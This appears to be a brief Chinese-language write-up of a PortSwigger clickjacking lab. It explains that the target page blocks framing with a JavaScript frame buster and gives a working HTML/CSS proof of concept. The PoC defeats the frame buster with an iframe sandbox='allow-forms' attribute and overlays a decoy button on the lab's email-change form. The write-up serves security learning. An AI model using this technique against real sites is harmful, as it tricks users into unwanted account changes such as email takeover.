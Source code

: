 页面使用javascript脚本对页面进行了限制：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/点击劫持/images/24DE6EDA96B748448B3E6FC505F84AFBclipboard.png)

使页面不能够iframe化



但是这个方法存在绕过，可以使用 iframe标签的sandbox="allow-forms" 属性进行绕过



poc:

```javascript
<style>
   iframe {
       position:relative;
       width:500px;
       height: 700px;
       opacity: 0.1;
       z-index: 2;
   }
   div {
       position:absolute;
       top:450px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Click me</div>
<iframe src="https://ac761fae1ef30c8d80f54ea2004e0051.web-security-academy.net/email?email=111@qq.com" sandbox="allow-forms"></iframe>
```

